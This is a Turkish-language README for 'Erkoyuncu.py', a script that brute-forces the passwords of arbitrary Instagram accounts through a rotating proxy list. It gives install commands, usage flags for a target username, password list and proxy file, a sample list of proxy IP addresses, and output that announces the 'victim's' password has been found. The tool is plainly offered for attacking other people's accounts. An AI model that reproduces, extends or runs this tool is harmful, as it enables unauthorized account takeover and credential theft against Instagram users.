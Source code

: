 ## **İNSTAGRAM BRUTE FORCE ATTACK**

**BU PROGRAM, BIR PROXY LISTESI VERILDIĞINDE GÖNDERDIĞINIZ HERHANGI BIR INSTAGRAM HESABINA BRUTEFORCE UYGULAYACAKTIR.**


# **Gereksinimler**
- > *Python v3.9*
- > ****Günce Proxy Listesi

# **DESTEKÇILERI YÜKLEYIN**
- > *pip install pipenv**


 **PYTHON 3.9'UN KURULU OLDUĞUNDAN EMIN OLUN**
- > *pipenv --python 3.9*

# **Kurulum Gereksinimleri**
- > pipenv install

# **YARIMCI KOMUTLAR**


- *> usage: -h, --help    -k KULLANICIADI, -p PASSLISTESI,-px PROXYLISTESI,  --prune PRUNE --stats               proxy istatisliklerini görmek için -nc, --renk yok*

**Programa bir proxy listesi yükleyin. Proxy dosyası şu formatta olmalıdır: ip:port**

**Örnek;**

> *proxies_list.txt
3.238.111.248:80
206.189.59.192:8118
165.22.81.30:34100
176.248.120.70:3128
191.242.178.209:3128
180.92.194.235:80*
**

**PROXY LISTESINI YÜKLEMEK IÇIN YAZILACAK KOMUT **
- > *python3 Erkoyuncu.py -px <proxy yolu>*


**BU, KOMUT PROXYLER HAKKINDA SAĞLIK DURUMUNU VERIR.**

- > *python Erkoyuncu.py --stats*

**BU, BELIRLI BIR PUANIN ALTINDA BIR PUANA SAHIP PROXY'LERDEN KURTULMAYI SAĞLAR. AŞAĞIDA PROXY PUANI OLAN PROXY'LERIN VERITABANINI SIZE GÖSTERIR (Yazılım zaten hangi proxy'lerin kötü performans gösterdiğini otomatik olarak öğrenecek ve bunları kullanmayı bırakacaktır.)**

- > *python Erkoyuncu.py --prune 0.05*-

# **Kullanım**
> - python3 Erkoyuncu.py -u kullanıcıadı -p passlistesi -px proxylistesi


- > *YAZILIM İÇİ
- [-] Passwordlistesi:
- [-] Kullanıcı Adı:
- [-] Şifre:
- [-] Tamamlanan:
- [-] Denenen:
- [-] Proxyler:
- [-] Bağlantı:*

- *> [!] HEYY Kurbanın Şifresini Buldum 
- [+] Kullanıcı Adı:
- [+] Şifresi:*
